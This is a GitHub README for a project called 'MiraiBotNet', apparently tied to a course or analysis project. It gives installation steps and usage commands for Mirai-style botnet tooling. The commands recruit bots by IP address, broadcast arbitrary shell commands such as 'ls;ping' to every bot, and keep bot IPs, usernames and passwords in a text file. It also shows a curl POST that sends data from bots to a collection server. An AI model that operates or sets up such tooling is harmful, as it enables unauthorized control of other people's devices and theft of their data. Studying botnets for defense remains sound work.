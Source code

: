 # MiraiBotNet

## prerequisites

 - mongoDB 
 - pip

```bash
# chmod +x init.sh
# ./init.sh
# cd botnet/
# pip install -r requirement.txt  
```
## Usage 

### To get the bots
```bash
# cd botnet/
# ./run.sh <ip> 
  eg:- # ./run.sh 192.168.31.X 
```

### To run the command accross all the bots
```bash
# cd botnet/
# ./command.sh <cmd> 
  eg:- # ./command.sh "ls;ping www.google.com"
```

## Information
### userPassIPFile.txt file contains the IP,Username,Password of the bots. 
 
### to get data from bots
```
curl --header "Content-Type: application/json" --request POST --data '{"ip":"192.168.31.254","data":"this is data entered bla"}' http://192.168.31.32:5000/reciveData
```


PW20RJS01 - Mirai Botnet Analysis
